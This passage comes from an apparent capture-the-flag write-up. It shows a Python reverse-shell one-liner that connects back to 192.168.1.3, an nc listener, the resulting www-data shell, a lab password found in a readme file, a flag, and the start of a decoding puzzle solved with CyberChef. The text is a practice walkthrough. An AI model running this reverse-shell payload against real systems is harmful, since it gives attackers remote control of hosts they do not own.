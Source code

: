 > To exploit this I sent a regular python3 reverse shell paylaod:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.3",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

> While on my machine listening to incoming connections on port 80 using:
```
nc -lvnp 80
```

> I got a shell as www-data

![wwwdatashell](images/wwwdatashell.png)


> Listing the files available on the directory /var/www/html/shellcmsdashboard found the password for the 7th user in file readme9213.txt:
```
password for the seventh user is 6u1l3rm0p3n473
```

### Siete
> Flag in home directory:
```
flag7{d5c26a}
```
> This user contains several files. A zip folder that is password protected, a key.txt that contains a single character and a hint.txt that says the following:
```
Base 10 and Base 256 result in Base 256!
```
> First thing I did was to use my favorite tool for analyzing possible encodings and ciphers of all types, CyberChef! I formatted the bytes and threw them on CyberChef to literally do its Magic, which is an algorithm to identify data properties. I selected intensive mode:

```
11 29 27 25 10 21 1 0 23 10 17 12 13 8
```

